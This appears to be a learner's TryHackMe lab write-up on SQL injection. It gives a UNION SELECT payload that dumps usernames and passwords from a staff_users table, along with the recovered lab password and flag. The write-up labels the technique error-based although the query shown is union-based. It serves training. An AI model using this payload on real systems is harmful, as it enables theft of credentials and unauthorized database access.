

# Level 1 – Error-Based SQLi (Task 5)

**Date recorded:** 2025-09-24

**Lab Objective:** Enumerate usernames and passwords from the `staff_users` table using Error-Based SQLi.

**SQL Query executed:**

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR ' ') FROM staff_users

**Result / Notes:**

- Retrieved concatenated username:password values from staff_users.
- Performed in a safe TryHackMe lab environment.
- Error-based SQLi allowed enumeration of the table.

**Recovered Data:**

Password: pa$$word

Flag: THM{SQL_INJECTION_3840}

**Screenshot:**

**What I Learned:**
- How Error-Based SQLi works and how SQL errors can leak database information.
- Using UNION SELECT to extract multiple columns from a table.
- Importance of safe lab environments to practice SQLi without affecting real systems.